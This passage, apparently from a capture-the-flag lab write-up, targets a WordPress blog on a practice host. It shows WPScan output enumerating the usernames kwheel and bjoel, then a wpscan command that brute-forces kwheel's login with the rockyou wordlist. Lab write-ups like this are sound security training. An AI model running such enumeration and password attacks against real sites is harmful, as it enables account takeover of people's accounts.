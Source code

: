``` bash
[+] kwheel
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blog.thm/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] bjoel
 | Found By: Author Posts - Author Pattern (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://blog.thm/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] Karen Wheeler
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Rss Generator (Aggressive Detection)

[+] Billy Joel
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By: Rss Generator (Aggressive Detection)

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Thu Jan  5 02:40:51 2023
[+] Requests Done: 24
[+] Cached Requests: 38
[+] Data Sent: 6.858 KB
[+] Data Received: 143.396 KB
[+] Memory used: 163.559 MB
[+] Elapsed time: 00:00:05
```

We've found a couple of author accounts: "bjoel" and "kwheel", next we'll run the tool again in password cracking mode.

Billy's password isn't crackable with the rockyou ( or any other) wordlist, so we'll try his mom's account.

``` bash
wpscan --url blog.thm -U kwheel -P /usr/share/wordlists/rockyou.txt --password-attack wp-login -t 64 

```

About a minute and a half later, we should have Kelly's password.

## User.txt
